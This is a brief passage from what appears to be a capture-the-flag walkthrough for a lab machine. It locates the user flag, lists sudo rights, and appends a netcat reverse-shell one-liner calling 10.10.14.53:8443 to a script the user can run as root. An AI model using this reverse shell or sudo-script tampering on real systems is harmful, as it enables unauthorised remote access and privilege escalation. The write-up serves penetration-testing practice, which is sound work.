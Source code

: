 **Find the user flag**

```
find /home/nibbler -name user.txt
```

**Determine what the user can execute**
```
sudo -l
```

The user can execute the monitor.sh file without a passwd

**Append the one-liner to the end of monitor.sh**
```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.53 8443 >/tmp/f' | tee -a monitor.sh
```

